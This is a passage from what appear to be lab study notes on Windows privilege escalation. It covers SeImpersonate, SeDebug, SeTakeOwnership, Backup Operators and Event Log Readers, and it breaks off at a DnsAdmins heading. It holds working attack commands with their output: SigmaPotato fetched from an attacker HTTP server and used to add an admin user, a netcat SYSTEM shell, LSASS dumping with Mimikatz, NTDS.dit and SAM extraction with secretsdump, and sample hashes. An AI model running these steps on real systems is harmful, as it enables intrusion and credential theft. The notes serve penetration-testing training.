If all goes according to plan, you will have a SYSTEM shell on your netcat listener.

```bash
d41y@htb[/htb]$ nc -lnvp 8443

listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.30] 49847
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.


C:\Windows\system32>whoami

whoami
nt authority\system
```

Escalating privileges by leveraging SeImpersonate is very common.

#### SeImpersonate Example - SigmaPotato

SigmaPotato is a refined version of JuicyPotato that abuses Windows COM/DCOM activation and token impersonation (via `SeImpersonatePrivilege`) to obtain SYSTEM-level privileges, with improved compatibility and reliability on newer Windows versions where older CLSID-based JuicyPotato methods are often blocked or patched.

```
C:\Users\dave> whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeSecurityPrivilege           Manage auditing and security log          Disabled
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

```bash
kali@kali:~$ wget https://github.com/tylerdotrar/SigmaPotato/releases/download/v1.2.6/SigmaPotato.exe
...
2024-09-03 12:50:48 (1.26 MB/s) - 'SigmaPotato.exe' saved [63488/63488]

kali@kali:~$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```
C:\Users\dave> powershell
powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Users\dave> iwr -uri http://192.168.48.3/SigmaPotato.exe -OutFile SigmaPotato.exe
iwr -uri http://192.168.48.3/SigmaPotato.exe -OutFile SigmaPotato.exe
```

```powershell
PS C:\Users\dave> .\SigmaPotato "net user dave4 lab /add"
.\SigmaPotato "net user dave4 lab /add"
[+] Starting Pipe Server...
[+] Created Pipe Name: \\.\pipe\SigmaPotato\pipe\epmapper
[+] Pipe Connected!
...
[+] Process Started with PID: 2004

[+] Process Output:
The command completed successfully.

PS C:\Users\dave> net user
net user

User accounts for \\CLIENTWK220

-------------------------------------------------------------------------------
Administrator            BackupAdmin              dave                     
dave4                    daveadmin                DefaultAccount           
Guest                    offsec                   steve                    
WDAGUtilityAccount       
The command completed successfully.

PS C:\Users\dave> .\SigmaPotato "net localgroup Administrators dave4 /add"
.\SigmaPotato "net localgroup Administrators dave4 /add"
[+] Starting Pipe Server...
[+] Created Pipe Name: \\.\pipe\SigmaPotato\pipe\epmapper
[+] Pipe Connected!
...
[+] Process Started with PID: 10872

[+] Process Output:
The command completed successfully.


PS C:\Users\dave> net localgroup Administrators
net localgroup Administrators
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
BackupAdmin
dave4
daveadmin
offsec
The command completed successfully.
```

#### SeDebugPrivilege

To run a particular application or service or assist with troubleshooting, a user might be assigned the SeDebugPrivilege instead of adding the account into the administrators group. This privilege can be assigned via local or domain group policy, under "Computer Settings -> Windows Settings -> Security Settings". By default, only administrators are granted this privilege as it can be used to capture sensitive information from system memory, or access/modify kernel and application structures. This right may be assigned to devs who need to debug new system components as part of their day-to-day job. This user right should be given out sparingly because any account that is assigned it will have access to critical OS components.

During an internal pentest, it is often helpful to use websites such as LinkedIn to gather information about potential users to target. Suppose you are, for example, retrieving many NTLMv2 password hashes using Responder or Inveigh. In that case, you may want to focus your password hash cracking efforts on possible high-value accounts, such as devs who are more likely to have these types of privileges assigned to their accounts. A user may not be a local admin on a host but have rights that you cannot enumerate remotely using a tool such as BloodHound. This would be worth checking in an environment where you obtain credentials for several users and have RDP access to one or more hosts but no additional privileges.



After logging on as a user assigned the Debug programs right and opening an elevated shell, you see SeDebugPrivilege is listed.

```
C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeDebugPrivilege                          Debug programs                                                     Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set  
```

You can use [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) from the SysInternals suite to leverage this privilege and dump process memory. A good candidate is the Local Security Authority Subsystem Service (_LSASS_) process, which stores user credentials after a user logs on to a system.

```
C:\htb> procdump.exe -accepteula -ma lsass.exe lsass.dmp

ProcDump v10.0 - Sysinternals process dump utility
Copyright (C) 2009-2020 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[15:25:45] Dump 1 initiated: C:\Tools\Procdump\lsass.dmp
[15:25:45] Dump 1 writing: Estimated dump file size is 42 MB.
[15:25:45] Dump 1 complete: 43 MB written in 0.5 seconds
[15:25:46] Dump count reached.
```

This is successful, and you can load this in Mimikatz using the `sekurlsa::minidump` command. After issuing the `sekurlsa::logonPasswords` commands, you gain the NTLM hash of the local administrator account logged on locally. You can use this to perform a PtH attack to move laterally if the same local administrator password is used on one or multiple additional systems.

>[!NOTE]
> It is always a good idea to type "log" before running any commands in Mimikatz this way all command output will put output to a .txt file. This is especially useful when dumping credentials from a server which may have many sets of credentials in memory.

```
C:\htb> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # log
Using 'mimikatz.log' for logfile : OK

mimikatz # sekurlsa::minidump lsass.dmp
Switch to MINIDUMP : 'lsass.dmp'

mimikatz # sekurlsa::logonpasswords
Opening : 'lsass.dmp' file for minidump...

Authentication Id : 0 ; 23196355 (00000000:0161f2c3)
Session           : Interactive from 4
User Name         : DWM-4
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 3/31/2021 3:00:57 PM
SID               : S-1-5-90-0-4
        msv :
        tspkg :
        wdigest :
         * Username : WINLPE-SRV01$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :

<SNIP> 

Authentication Id : 0 ; 23026942 (00000000:015f5cfe)
Session           : RemoteInteractive from 2
User Name         : jordan
Domain            : WINLPE-SRV01
Logon Server      : WINLPE-SRV01
Logon Time        : 3/31/2021 2:59:52 PM
SID               : S-1-5-21-3769161915-3336846931-3985975925-1000
        msv :
         [00000003] Primary
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * NTLM     : cf3a5525ee9414229e66279623ed5c58
         * SHA1     : 3c7374127c9a60f9e5b28d3a343eb7ac972367b2
        tspkg :
        wdigest :
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * Password : (null)
        kerberos :
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * Password : (null)
        ssp :
        credman :

<SNIP>
```

Suppose you are unable to load tools on the target for whatever reason but have RDP access. In that case, you can take a manual dump of the LSASS process via the Task Manager by browsing to the "Details" tab, choosing the "LSASS" process, and selecting "Create dump file". After downloading this file back to your attack system, you can process it using Mimikatz the same way as the previous example.



##### RCE as SYSTEM

You can also leverage SeDebugPrivilege for RCE. Using this technique, you can elevate your privileges to SYSTEM by launching a child process and using the elevated rights granted to your account via SeDebugPrivilege to alter normal system behavior to inherit the token of a parent process and impersonate it. If you target a parent process running as SYSTEM, then you can elevate your rights quickly.

First, transfer this [PoC script](https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1) over to the target system. Next you just load the script and run it with the following syntax `[MyProcess]::CreateProcessFromParent(<system_pid>,<command_to_execute>,"")`. Note that you must add a third blank `""` at the end for the PoC to work properly.

First, open an elevated PowerShell console. Next, type `tasklist` to get a listing of running processes and accompanying PIDs.

```powershell
PS C:\htb> tasklist 

Image Name                     PID Session Name        Session#    Mem Usage
========================= ======== ================ =========== ============
System Idle Process              0 Services                   0          4 K
System                           4 Services                   0        116 K
smss.exe                       340 Services                   0      1,212 K
csrss.exe                      444 Services                   0      4,696 K
wininit.exe                    548 Services                   0      5,240 K
csrss.exe                      556 Console                    1      5,972 K
winlogon.exe                   612 Console                    1     10,408 K
```

Here you can target `winlogon.exe` running under PID 612, which you know runs a SYSTEM on Windows hosts.



You could also use the Get-Process cmdlet to grab the PID of a well-known process that runs as SYSTEM and pass the PID directly to the script, cutting down on the number of steps required.



Other tools such as [this one](https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC) exist to pop a SYSTEM shell when you have SeDebugPrivilege. Often you will not have RDP access to a host, so you'll have to modify your PoCs to either return a reverse shell to your attack host as SYSTEM or another command, such as adding ad admin user.

#### SeTakeOwnershipPrivilege

SeTakeOwnershipPrivilege grants a user the ability to take ownership of any "securable object", meaning AD objects, NTFS files/folders, printers, registry keys, services, and processes. This privilege assigns WRITE_OWNER rights over an object, meaning the user can change the owner within the object's security descriptor. Administrators are assigned this privilege by default. While it is rare to encounter a standard user account with this privilege, you may encounter a service account that, for example, is tasked with running backup jobs and VSS snapshots assigned this privilege. It may also be assigned a few others such as SeBackupPrivilege, SeRestorePrivilege, and SeSecurityPrivilege to control this account's privileges at a more granular level and not granting the account full local admin rights. These privileges on their own could likely be used to escalate privileges. Still, there may be times when you need to take ownership of specific files because other methods are blocked, or otherwise, do not work as expected. Abusing this privilege is a bit of an edge case. Still, it is worth understanding in-depth, especially since you may also find yourself in a scenario in an AD environment where you can assign this right to a specific user that you can control and leverage it to read a sensitive file on a file share.



The setting can be set in Group Policy under "Computer Configuration -> Windows Settings -> Security Settings -> Local Policies -> User Rights -> Assignment".



With this privilege, a user could take ownership of any file or object and make changes that could involve access to sensitive data, RCE or DOS.

Suppose you encounter a user with this privilege or assign it to them through an attack such as GPO abuse using [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse). In that case, you could use this privilege to potentially take control of a shared folder or sensitive files such as a document containing passwords or an SSH key.

##### Leveraging the Privilege

Review your current user's privileges.

```powershell

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                                              State
============================= ======================================================= ========
SeTakeOwnershipPrivilege      Take ownership of files or other objects                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                                Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set                          Disabled
```

Notice from the output that the privilege is not enabled. You can enbale it using this [script](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1) which is detailed in [this blog post](https://www.leeholmes.com/blog/2010/09/24/adjusting-token-privileges-in-powershell/), as well as [this](https://medium.com/@markmotig/enable-all-token-privileges-a7d21b1a4a77) one which builds on the initial concept.

```powershell
PS C:\htb> Import-Module .\Enable-Privilege.ps1
PS C:\htb> .\EnableAllTokenPrivs.ps1
PS C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                              State
============================= ======================================== =======
SeTakeOwnershipPrivilege      Take ownership of files or other objects Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Enabled
```

Next, choose a target file and confirm the current ownership. For your purposes, you'll target an interesting file found on a file share. It is common to encounter file shares with Public and Private directories with subdirectories set up by department. Given a user's role in the company, they can often access specific files/directories. Even with a structure like this, a sysadmin may misconfigure permissions on directories and subdirectories, making file shares a rich source of information for you once you have obtained AD creds. For your scenario, assume that you have access to the target company's file share and can freely browse both the Private and Public subdirectories. For the most part, you find that permissions are set up strictly, and you have not found any interesting information on the Public portion of the file share. In browsing the Private portion, you find that all Domain Users can list the contents of certain subdirectories but get an "Access denied" message when trying to read the contents of most files. You find a file named "cred.txt" under the IT subdirectory of the Private share folder during your enumeration.

Given that your user account has SeTakeOwnershipPrivilege you can leverage it to read any file of your choosing.

> [!NOTE]
> Take great care when performing a potentially destructive action like changing file ownership, as it could cause an application to stop working or disrupt user(s) of the target object. Changing the ownership of an important file, such as a live web.config file, is not something you should do without consent from your client first. Furthermore, changing ownership of a file buried down several subdirectories may be difficult to revert and should be avoided.

Check out your target file to gather a bit more information about it.

```powershell
PS C:\htb> Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}
 
FullName                                 LastWriteTime         Attributes Owner
--------                                 -------------         ---------- -----
C:\Department Shares\Private\IT\cred.txt 6/18/2021 12:23:28 PM    Archive
```

You can see that the owner is not shown, meaning that you likely do not have enoug permissions over the object to view those details. You can back up a bit and check out the owner of the IT directory.

```powershell
PS C:\htb> cmd /c dir /q 'C:\Department Shares\Private\IT'

 Volume in drive C has no label.
 Volume Serial Number is 0C92-675B
 
 Directory of C:\Department Shares\Private\IT
 
06/18/2021  12:22 PM    <DIR>          WINLPE-SRV01\sccm_svc  .
06/18/2021  12:22 PM    <DIR>          WINLPE-SRV01\sccm_svc  ..
06/18/2021  12:23 PM                36 ...                    cred.txt
               1 File(s)             36 bytes
               2 Dir(s)  17,079,754,752 bytes free
```

You can see that the IT share appears to be owned by a service account and does contain a file cred.txt with some data inside.

Now you can use the [takeown](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/takeown) Windows binary to change ownership of the file.

```powershell
PS C:\htb> takeown /f 'C:\Department Shares\Private\IT\cred.txt'
 
SUCCESS: The file (or folder): "C:\Department Shares\Private\IT\cred.txt" now owned by user "WINLPE-SRV01\htb-student".
```

You can confirm ownership using the same command as before. You now see that your user account is the file owner.

```powershell
PS C:\htb> Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}
 
Name     Directory                       Owner
----     ---------                       -----
cred.txt C:\Department Shares\Private\IT WINLPE-SRV01\htb-student
```

You may still not be able to read the file and need to modify the file ACL using icacls to be able to read it.

```powershell
PS C:\htb> cat 'C:\Department Shares\Private\IT\cred.txt'

cat : Access to the path 'C:\Department Shares\Private\IT\cred.txt' is denied.
At line:1 char:1
+ cat 'C:\Department Shares\Private\IT\cred.txt'
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\Department Shares\Private\IT\cred.txt:String) [Get-Content], Unaut
   horizedAccessException
    + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand
```

Grant your user full privileges over the target file.

```powershell
PS C:\htb> icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F

processed file: C:\Department Shares\Private\IT\cred.txt
Successfully processed 1 files; Failed processing 0 files
```

If all went to plan, you can now read the target file form the command line, open it if you have RDP access, or copy it down your attack system for additional processing.

```powershell
PS C:\htb> cat 'C:\Department Shares\Private\IT\cred.txt'

NIX01 admin
 
root:n1X_p0wer_us3er!
```

After performing these changes, you would want to make every effort to revert the permissions/file ownership. If you cannot for some reason, you should alert your client and carefully document the modifications in an appendix of your report deliverable. Again, leveraging this permission can be considered a destructive action and should be done with great care. Some clients may prefer that you document the ability to perform the action as evidence of a misconfiguration but not fully take advantage of the flaw due to the potential impact.

##### When to use?

Some local files of interest may include:

```
c:\inetpub\wwwwroot\web.config
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
```

You may also come across .kdbx KeePass database files, OneNote notebooks, files such as passwords.\*, pass.\*, creds.\*, scripts, other configuration files, virtual hard drive files, and more that you can target to extract sensitive information from to elevate your privileges and further your access.

## Group Privileges

### Built-In Groups

WIndows servers, and especially DCs have a variety of built-in groups that either ship with the OS or get added when the AD Domain Services role is installed on a system to promote a server to a DC. Many of these groups confer special privileges on their members, and some can be leveraged to escalate privileges on a server or a DC. [Here](https://ss64.com/nt/syntax-security_groups.html) is a listing of all built-in Windows groups along with a detailed description of each. This [page](https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/appendix-b--privileged-accounts-and-groups-in-active-directory) has a detailed listing of privileged accounts and groups in AD. It is essential to understand the implication of membership in each of these groups whether you gain access to an account that is a member of one of them or notice excessive/unnecessary membership in one or more of these groups during an assessment. For your purposes, you will focus on the following built-in groups. Each of these groups exists on the systems from Server 2008 R2 to the present, except for Hyper-V Administrator.

Accounts may be assigned to these groups to enforce least privilege and avoid creating more Domain Admins and Enterprise Admins to perform specific tasks, such as backups. Sometimes vendor applications will also require certain privileges, which can be granted by assigning a service account to one of these groups. Accounts may also be added by accident or leftover after testing a specific tool or script. You should always check these groups and include a list of each group's members as an appendix in your report for the client to review and determine if access is still necessary.

- [Backup Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-backupoperators)
- [Event Log Readers](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-eventlogreaders)
- [DnsAdmins](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-dnsadmins)
- [Hyper-V Administrators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-hypervadministrators)
- [Print Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-printoperators)
- [Server Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-serveroperators)

### Backup Operators

After landing on a machine, you can use the command `whoami /groups` to show your current group membership. Examine the case where you are a member of the Backup Operators group. Membership of this group grants its members the SeBackup and SeRestore privileges. The SeBackupPrivilege allows you to traverse any folder and list the folder contents. This will let you copy a file from a folder, even if there is no access control entry for you in the folder's access control list. However, you can't do this using the standard copy command. Instead, you need to programmatically copy the data, making sure to specify the [FILE_FLAG_BACKUP_SEMANTICS](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea) flag.

You can this [PoC](https://github.com/giuliano108/SeBackupPrivilege) to exploit the SeBackupPrivilege, and copy this file. First, import the libraries in a PowerShell session.

```powershell
PS C:\htb> Import-Module .\SeBackupPrivilegeUtils.dll
PS C:\htb> Import-Module .\SeBackupPrivilegeCmdLets.dll
```

Check if SeBackupPrivilege is enabled by invoking `whoami /priv` or `Get-SeBackupPrivilege` cmdlet. If the privilege is disabled, you can enable it with `Set-SeBackupPrivilege`.

```powershell
PS C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeBackupPrivilege             Back up files and directories  Disabled
SeRestorePrivilege            Restore files and directories  Disabled
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled

PS C:\htb> Get-SeBackupPrivilege

SeBackupPrivilege is disabled
```

If the privilege is disabled, you can enable it with `Set-SeBackupPrivilge`.

```powershell
PS C:\htb> Set-SeBackupPrivilege
PS C:\htb> Get-SeBackupPrivilege

SeBackupPrivilege is enabled

PS C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Disabled
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

As you can see above, the privilege was enabled successfully. This privilege can now be leveraged to copy any protected file.

```powershell
PS C:\htb> dir C:\Confidential\

    Directory: C:\Confidential

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         5/6/2021   1:01 PM             88 2021 Contract.txt


PS C:\htb> cat 'C:\Confidential\2021 Contract.txt'

cat : Access to the path 'C:\Confidential\2021 Contract.txt' is denied.
At line:1 char:1
+ cat 'C:\Confidential\2021 Contract.txt'
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\Confidential\2021 Contract.txt:String) [Get-Content], Unauthor
   izedAccessException
    + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand

PS C:\htb> Copy-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' .\Contract.txt

Copied 88 bytes


PS C:\htb>  cat .\Contract.txt

Inlanefreight 2021 Contract

==============================

Board of Directors:

<...SNIP...>
```

The commands above demonstrate how sensitive information was accessed without possessing the required permissions.

Next, you can use the `Copy-FileSeBackupPrivilege` cmdlet to bypass the ACL and copy the NTDS.dit locally.

```powershell
PS C:\htb> Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit

Copied 16777216 bytes
```

The privilege also lets you back up the SAM and SYSTEM registry hives, which you can extract local account credentials offline using a tool such as Impacket's secretsdump.py.

```
C:\htb> reg save HKLM\SYSTEM SYSTEM.SAV

The operation completed successfully.


C:\htb> reg save HKLM\SAM SAM.SAV

The operation completed successfully.
```

It's worth noting that if a folder or file has an explicit deny entry for your current user or group they belong to, this will prevent you from accessing it, even if the `FILE_FLAG_BACKUP_SEMANTICS` flag is specified.

With the NTDS.dit extracted, you can use a tool such as secretsdump.py or the PowerShell DSInternals module to extract all AD account credentials. Obtain the NTLM hash for just the administrator account for the domain using DSInternals.

```powershell
PS C:\htb> Import-Module .\DSInternals.psd1
PS C:\htb> $key = Get-BootKey -SystemHivePath .\SYSTEM
PS C:\htb> Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key

DistinguishedName: CN=Administrator,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
Sid: S-1-5-21-669053619-2741956077-1013132368-500
Guid: f28ab72b-9b16-4b52-9f63-ef4ea96de215
SamAccountName: Administrator
SamAccountType: User
UserPrincipalName:
PrimaryGroupId: 513
SidHistory:
Enabled: True
UserAccountControl: NormalAccount, PasswordNeverExpires
AdminCount: True
Deleted: False
LastLogonDate: 5/6/2021 5:40:30 PM
DisplayName:
GivenName:
Surname:
Description: Built-in account for administering the computer/domain
ServicePrincipalName:
SecurityDescriptor: DiscretionaryAclPresent, SystemAclPresent, DiscretionaryAclAutoInherited, SystemAclAutoInherited,
DiscretionaryAclProtected, SelfRelative
Owner: S-1-5-21-669053619-2741956077-1013132368-512
Secrets
  NTHash: cf3a5525ee9414229e66279623ed5c58
  LMHash:
  NTHashHistory:
  LMHashHistory:
  SupplementalCredentials:
    ClearText:
    NTLMStrongHash: 7790d8406b55c380f98b92bb2fdc63a7
    Kerberos:
      Credentials:
        DES_CBC_MD5
          Key: d60dfbbf20548938
      OldCredentials:
      Salt: WIN-NB4NGP3TKNKAdministrator
      Flags: 0
    KerberosNew:
      Credentials:
        AES256_CTS_HMAC_SHA1_96
          Key: 5db9c9ada113804443a8aeb64f500cd3e9670348719ce1436bcc95d1d93dad43
          Iterations: 4096
        AES128_CTS_HMAC_SHA1_96
          Key: 94c300d0e47775b407f2496a5cca1a0a
          Iterations: 4096
        DES_CBC_MD5
          Key: d60dfbbf20548938
          Iterations: 4096
      OldCredentials:
      OlderCredentials:
      ServiceCredentials:
      Salt: WIN-NB4NGP3TKNKAdministrator
      DefaultIterationCount: 4096
      Flags: 0
    WDigest:
Key Credentials:
Credential Roaming
  Created:
  Modified:
  Credentials:
```

You can also use SecretsDump offline to extract hashes from the ndts.dit file obtained earlier. These can then be used for PtH to access additional resources or cracked offline using Hashcat to gain further access. If cracked, you can also prevent the client with password cracking statistics to provide them with detailed insight into overall password strength and usage within their domain and provide recommendations for improving their password policy.

```bash
d41y@htb[/htb]$ secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL

Impacket v0.9.23.dev1+20210504.123629.24a0ae6f - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0xc0a9116f907bd37afaaa845cb87d0550
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 85541c20c346e3198a3ae2c09df7f330
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WINLPE-DC01$:1000:aad3b435b51404eeaad3b435b51404ee:7abf052dcef31f6305f1d4c84dfa7484:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a05824b8c279f2eb31495a012473d129:::
htb-student:1103:aad3b435b51404eeaad3b435b51404ee:2487a01dd672b583415cb52217824bb5:::
svc_backup:1104:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
bob:1105:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
hyperv_adm:1106:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
printsvc:1107:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::

<SNIP>
```

#### Robocopy

The built-in utility `robocopy` can be used to copy files in backup mode as well. Robocopy is a command-line directory replication tool. It can be used to create backup jobs and includes features such as multi-threaded copying, automatic retry, the ability to resume copying, and more. Robocopy differs from the `copy` command in that instead of just copying all files, it can check the destination directory and remove files no longer in the source directory. It can also compare files before copying to save time by not copying files that have been changed sinced the last copy/backup job ran.

```
C:\htb> robocopy /B E:\Windows\NTDS .\ntds ntds.dit

-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Thursday, May 6, 2021 1:11:47 PM
   Source : E:\Windows\NTDS\
     Dest : C:\Tools\ntds\

    Files : ntds.dit

  Options : /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

------------------------------------------------------------------------------

          New Dir          1    E:\Windows\NTDS\
100%        New File              16.0 m        ntds.dit

------------------------------------------------------------------------------

               Total    Copied   Skipped  Mismatch    FAILED    Extras
    Dirs :         1         1         0         0         0         0
   Files :         1         1         0         0         0         0
   Bytes :   16.00 m   16.00 m         0         0         0         0
   Times :   0:00:00   0:00:00                       0:00:00   0:00:00


   Speed :           356962042 Bytes/sec.
   Speed :           20425.531 MegaBytes/min.
   Ended : Thursday, May 6, 2021 1:11:47 PM
```

This eliminates the need for any external tools.

### Event Log Readers

Suppose auditing of process creation events and corresponding command line values is enabled. In that case, this information is saved to the Windows security event log as event ID 4688: "A new process has been created". Organizations  may enable logging of process command lines to help defenders monitor and identify possibly malicious behavior and identify binaries that should not be present on a system. This data can be shipped to a SIEM tool or ingested into a search tool, such as ElasticSearch, to give defenders visibility into what binaries are being run on systems in the network. The tools would then flag any potentially malicious activity, such as the `whoami`, `netstat`, and `tasklist` commands being run from a marketing executive's workstation.

This [study](https://blogs.jpcert.or.jp/en/2016/01/windows-commands-abused-by-attackers.html) shows some of the most run commands by attackers after initial access for reconnaissance and for spreading malware within a network. Aside from monitoring for these commands being run, an organization could take things a step further and restrict the execution of specific commands using fine-tuned AppLocker rules. For an organization with a tight security budget, leveraging these built-in tools from Microsoft can offer excellent visibility into network activities at the host level. Most modern enterprise EDR tools perform detection/blocking but can be out of reach for many organizations due to budgetary and personnel constraints.

Administrators or members of the Event Log Readers group have permission to access this log. It is conceivable that system administrators might want to add power users or devs into this group to perform certain tasks without having to grant them admininstrative access.

```
C:\htb> net localgroup "Event Log Readers"

Alias name     Event Log Readers
Comment        Members of this group can read event logs from local machine

Members

-------------------------------------------------------------------------------
logger
The command completed successfully.
```

Microsoft has published a [reference guide](https://download.microsoft.com/download/5/8/9/58911986-D4AD-4695-BF63-F734CD4DF8F2/ws-commands.pdf) for all built-in Windows commands, including syntax, parameters, and examples. Many Windows commands support passing a password as a parameter, and if auditing of process command lines is enabled, this sensitive information will be captured.

You can query Windows events form the command line using the `wevtutil` and the `Get-WinEvent` PowerShell cmdlet.

```powershell
PS C:\htb> wevtutil qe Security /rd:true /f:text | Select-String "/user"

        Process Command Line:   net use T: \\fs01\backups /user:tim MyStr0ngP@ssword
```

You can also specify alternate credentials for wevtutil using the parameters `/u` and `/p`.

```
C:\htb> wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user"
```

For Get-WinEvent, the syntax is as follows. In this example, you filter for process creation events (4688), which contains `/user` in the process command line.

> [!NOTE]
> Searching the Security event log with `Get-WinEvent` requires administrator access or permissions adjusted on the registy key `HKLM\System\CurrentControlSet\Services\Eventlog\Security`. Membership in just the "Event Log Readers" group is not sufficient.

```powershell
PS C:\htb> Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}

CommandLine
-----------
net use T: \\fs01\backups /user:tim MyStr0ngP@ssword
```

The cmdlet can also be run as another user with the `-Credential` parameter.

Other logs include [PowerShell Operational](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_logging_windows?view=powershell-7.1) log, which may also contain sensitive information or credentials if script block or module logging is enabled. This log is accessible to unprivileged users.

### DnsAdmins

